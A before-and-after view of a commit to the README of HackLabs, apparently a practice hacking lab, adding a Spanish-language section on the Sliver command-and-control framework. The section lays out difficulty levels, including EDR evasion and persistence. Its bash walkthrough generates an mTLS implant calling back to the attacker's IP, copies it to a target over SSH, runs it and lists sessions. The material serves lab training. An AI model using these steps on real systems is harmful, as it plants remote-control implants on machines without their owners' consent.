

Before and after one commit to afsh4ck/HackLabs, a Markdown page: README.md, the part around the change. GitHub-like rendering; folded sections open; blank space fills up the shorter version.

Commit message:
docs: add C2 Sliver detail section in README

````diff
--- a/README.md
+++ b/README.md
@@ -80,6 +80,37 @@ HackLabs incluye un **selector de dificultad** en la barra de navegación (simil
 
 <details>
 <summary><strong>A01 — IDOR (Broken Access Control)</strong></summary>
+
+<details>
+<summary><strong>C2 — Sliver (Command & Control)</strong></summary>
+
+| Nivel | Comportamiento |
+|-------|---------------|
+| **Easy** | Servidor Sliver en la máquina atacante, generación y ejecución directa del implant en la víctima. `sliver` acepta conexiones mTLS y las sesiones aparecen con `sliver > sessions`. |
+| **Medium** | Implant empaquetado/obfuscado; ejecución en la víctima necesita permisos de usuario; conexiones salientes restringidas parcialmente (filtrado o proxy). Se requiere generar el implant con la IP y arquitectura correctas (`--mtls {{ client_ip }}:443 --os linux --arch amd64`). |
+| **Hard** | Detección por EDR/WAF: ejecución bloqueada, monitorización de procesos y restricciones de red. Requiere técnicas de evasión: ejecución en memoria, migración de procesos, uso de scripts o staged payloads y técnicas de persistencia manuales. |
+
+```bash
+# En Kali (atacante)
+curl -sSL https://sliver.sh/install | sudo bash
+sliver
+sliver > generate --mtls {{ client_ip }}:443 --os linux --arch amd64
+sliver > mtls --lport 443
+
+# Transferir al objetivo y ejecutar
+scp /home/kali/IMPLANT_NAME admin@TARGET_IP:/tmp/
+ssh admin@TARGET_IP
+cd /tmp && ./IMPLANT_NAME
+
+# En Sliver
+sliver > sessions
+sliver > use <ID>
+sliver (ID) > ps
+```
+
+> Nota: `IMPLANT_NAME` se sustituye por el nombre del binario generado; `{{ client_ip }}` se autocompleta desde la plantilla en el entorno web. Usa este desplegable para ver los pasos rápidos del lab C2.
+
+</details>
 
 | Nivel | Comportamiento |
 |-------|---------------|
````
